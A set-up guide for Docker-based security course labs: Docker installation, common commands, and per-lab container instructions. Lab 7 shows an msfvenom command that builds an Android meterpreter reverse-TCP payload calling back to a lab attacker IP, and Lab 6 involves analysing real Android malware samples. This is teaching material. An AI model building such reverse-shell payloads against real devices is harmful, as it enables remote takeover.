





# Set-up

For convience, all lab environments are encapsulated into [Docker containers](https://www.docker.com/) respectively. So users can access the environments directly without installing extra dependencies (i.e. you can skip Set-up section in each lab). The only thing you need to prepare is to install Docker on your (cloud) machine.

````{warning}
The Android emulator container (used in Lab 7 and Lab 8) can not run on a machine that does not support KVM. So Lab 7 and 8 should not be finished on most cloud servers (see [README_CLOUD.md](https://github.com/budtmo/docker-android/blob/master/README_CLOUD.md) to check if your cloud server can host the container) or Windows/MacOS platform directly (but you may run the container on a Linux VM). To check if your Linux machine supports KVM, run:

```
$ sudo apt install cpu-checker
$ kvm-ok
```

````

## Install Docker

`````{tabbed} Windows

[Docker Desktop](https://www.docker.com/products/docker-desktop) is a strongly recommended GUI to access containers. After the desktop client application installed, you can pull the image of a lab (e.g. lab 4) by `cmd` (or other terminals like PowerShell or WSL)

```
> docker pull yangzhou301/lab4:lastest
```

When you open the Docker Desktop and select "Images" section, you can find the downloaded images:



Click "Run" and set [volumes](https://docs.docker.com/storage/volumes/sudo) (mapping from the host folder to the folder inside the running container):



After the container starts running, you can click the CLI buttom to open a command-line window:



```{note}
It uses `sh` as default commond-line tool, you can switch to `bash` by running `/bin/bash` right after opening the CLI.


```

By selecting a running container, you can monitor the performance stats:


`````

`````{tabbed} Ubuntu

Follow the instructions from [its docs](https://docs.docker.com/engine/install/ubuntu/):

First, remove all older versions of Docker:

```
$ sudo apt-get remove docker docker-engine docker.io containerd runc
```

Install all dependent packages:

```
$ sudo apt-get update
$ sudo apt-get install \
    apt-transport-https \
    ca-certificates \
    curl \
    gnupg \
    lsb-release
```

Add Docker’s official GPG key:

```
$ curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
```

Set up the stable repository as the target:

```
$ echo \
  "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu \
  $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
```

Install Docker engine:

```
$ sudo apt-get update
$ sudo apt-get install docker-ce docker-ce-cli containerd.io
```

After that, Docker is almost set-up, you can check it by

```
$ docker version
```

````{seealso} Post-installation
However, it still requires `sudo` to run Docker daemons. If you don't want to invoke `sudo` every time you use `docker` commands, you can create a Unix group called `docker`:

```
$ sudo groupadd docker
```

And add your user to the `docker` group:

```
$ sudo usermod -aG docker $USER
```

Active the changes to groups:

```
$ newgrp docker
```

````

After Docker installed, pull an image of lab environment (e.g. Lab 4) from the remote repository:

```
$ docker pull yangzhou301/lab4:lastest
```

Suppose the local folder you want to share with the container called `/path/to/host-volume` (**Note**: it must be the absolute path, not relative one), which you want to place into the container as `/path/to/container-volume`, you should run the image as such a container:

```
$ docker run -it -v /path/to/host-volume:/path/to/container-volume yangzhou301/lab4:lastest
```

in which `-it` (`--interactive + --tty`) takes you directly inside of the container in an activative way, `-v` stands for [volume](https://docs.docker.com/storage/volumes/#populate-a-volume-using-a-container) that creates a mapping storage from the host to the container.

Then, install `docker-compose` as the [instruction](https://docs.docker.com/compose/install/):

Download the stable release of Docker Compose:

```
$ sudo curl -L "https://github.com/docker/compose/releases/download/1.29.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
```

Apply executable permissions to it:

```
$ sudo chmod +x /usr/local/bin/docker-compose
```

Create a symbolic link to `/usr/bin`

```
$ sudo ln -s /usr/local/bin/docker-compose /usr/bin/docker-compose
```

Test if it is installed successfully:

```
$ docker-compose --version
```
`````

## Common Docker Commands

List all running containers:

```
$ docker ps
```

List all containers (including exited ones):

```
$ docker ps -a
```

Kill all running containers:

```
$ docker container kill $(docker ps -q) 
```

Remove all exited docker containers:

```
$ docker rm $(docker ps -qa --no-trunc --filter "status=exited")
```

List all local images

```
$ docker images
```

Remove all local images:

```
$ docker rmi $(docker images -a -q)
```

Open a shell on a running container named `container-name`

```
$ docker exec -it container-name /bin/bash
```

## All in One

We also integrated all dependencies of all labs into two container images:
- `lab-linux`: {Download}`Dockerfile`
- `lab-android`: {Download}`lab8/Dockerfile`

And they are managed in a docker-compose file (`lab-linux`: {Download}`docker-compose.yml`). To use either of them you can run

```sh
# for lab 3,4,6
$ docker-compose up lab-linux -d
```

or 

```sh
# for lab 8
$ docker-compose up lab-android -d
```

or run them together (for lab 7)

```sh
$ docker-compose up lab-linux lab-android -d
```

If it succeeds, you can also see a Wireshark GUI on http://localhost:3000/ for `lab-linux`


and an Android Emulator GUI on http://localhost:6080/ 

Almost all labs are supposed to start in `lab-linux` container by starting a `bash` in it via:

```
$ docker exec -it lab-linux /bin/bash
```

in which the work directory is `/volumnes`, a shared folder with `~/volumes` on your host, you can replace `~/volumes` in `docker-compose.yml` with the path that you specify as the shared folder. It is the easiest way to share files between the host and the container.

Except for Lab 8, in which should install an `.apk` by:

```
$ docker exec -it lab-android  bash -c "adb install lab8/sql-inject-demo.apk"
```

And then manipulate the app all the time on http://localhost:6080/

After all works done, don't forget to run

```
$ docker-compose down
```

to shut them down. Once you confirm that no tasks left, you can release the space by removing exited containers and images:

```
$ docker rm $(docker ps -qa --no-trunc --filter "status=exited")
$ docker rmi $(docker images -a -q)
```

## For Each Lab

### Lab 3

- Dockerfile: {Download}`lab3/Dockerfile`
- Remote: [yangzhou301/lab3](https://hub.docker.com/repository/docker/yangzhou301/lab3)
- Command:

```
$ docker run -it yangzhou301/lab3
```

- After lab ends, exit and remove the container:

```
$ docker rm $(docker ps -qa --no-trunc --filter "status=exited")
```

### Lab 4

- Dockerfile: {Download}`lab4/Dockerfile`
- Remote: [yangzhou301/lab4](https://hub.docker.com/repository/docker/yangzhou301/lab4)
- Shared Folder: `/usr/src/app`(container)
- Command:

```
$ docker run -it --volume=<your-path>:/usr/src/app yangzhou301/lab4
```

- After lab ends, exit and remove the container:

```
$ docker rm $(docker ps -qa --no-trunc --filter "status=exited")
```

### Lab 6

- Dockerfile: {Download}`lab6/Dockerfile`
- Remote: [yangzhou301/lab6](https://hub.docker.com/repository/docker/yangzhou301/lab6)
- Shared Folder: `/apks`(container)
- Command:


Start the container with specifying `~/lab6-apks`(empty) on your local machine as the shared folder with the container

```
$ docker run -it -v ~/lab6-apks:/apks yangzhou301/lab6
```

`reverse_tcp.apk` created in Lab 7 has been placed in `/root/lab7`, to analyze it by FlowDroid, run

```
# java -jar soot-infoflow-cmd-jar-with-dependencies.jar -a lab7/reverse_tcp.apk -p $ANDROID_HOME/platforms/ -s SourcesAndSinks.txt
```

Use [AndroPyTool](https://alexmyg.github.io/AndroPyTool/) to detect it thoroughly (copy your [VirusTotal](https://www.virustotal.com/) API key as `<api-key>`):

```
# cd AndroPyTool
# python -u /root/AndroPyTool/androPyTool.py -all -s /root/lab7 -vt <api-key>
```

you can read the reports in `/root/lab7` by `cat` commands.

Besides, malicious `apk`s in the collection of [android-malware](https://github.com/ashishb/android-malware) are extracted in `/root/malwares`, if you are interested in analyzing their behaviors by AndroPyTool, run 

```
# python -u /root/AndroPyTool/androPyTool.py -all -s /root/malwares -vt <api-key>
```

If you have other `apk`s to analyze, put them into the shared directory `~/lab6-apks` and run

```
# python -u /root/AndroPyTool/androPyTool.py -all -s /apks -vt <api-key>
```

Then you can view the reports in this directory locally.

After all jobs are done, remove the container:

```
$ docker rm $(docker ps -qa --no-trunc --filter "status=exited")
```


### Lab 7

In this lab, it contains three containers organized by a `docker-compose` file.

- Compose File: {Download}`lab7/docker-compose.yml`
- Dockerfile(Attacker): {Download}`lab7/Dockerfile`
- Remote(Attacker):  [yangzhou301/lab7](https://hub.docker.com/repository/docker/yangzhou301/lab7)
- Command
  - Start Docker Compose:

```sh
# work in lab7 directory
$ cd lab7
$ docker-compose up -d

# or any directory that includes the `docker-compose.yml`
$ docker-compose up -d -f docker-compose.yml
```
 - Manipulate the Android Emulator (victim container `10.9.0.6`) on [http://localhost:6080](http://localhost:6080)
 - Monitor the traffic in the subnet via Wireshark (analyzer container `10.9.0.8`) on [http://localhost:3000](http://localhost:3000/)
 - Open a shell in the attacker container (`10.9.0.7`) to process the lab

```
$ docker exec -it attacker /bin/bash
```
 - After all jobs are done, terminate all containers by

```
$ docker-compose down
```

Accordingly, change the IP address used in lab instruction, for example:

```
msf> msfvenom -p android/meterpreter/reverse_tcp LHOST=10.9.0.7 LPORT=4444 -f raw -o reverse_tcp.apk
msf> set lhost 10.9.0.7
```

### Lab 8

This lab runs on an android emulator docker all the time.

- Compose File: {Download}`lab8/docker-compose.yml`
- Dockerfile: {Download}`lab8/Dockerfile`
- Remote [yangzhou301/lab8](https://hub.docker.com/repository/docker/yangzhou301/lab8)
- Command:
  - Start the Docker Compose:
```
$ docker-compose up -d -f docker-compose.yml
```
  - Check if the Android emulator runs properly on [http://localhost:6080](http://localhost:6080)
  - Install `sql-inject-demo.apk` on it:

```
$ docker exec -it mobile bash -c "adb install lab8/sql-inject-demo.apk"
```

  - After all jobs are done, terminate all containers by

```
$ docker-compose down
```


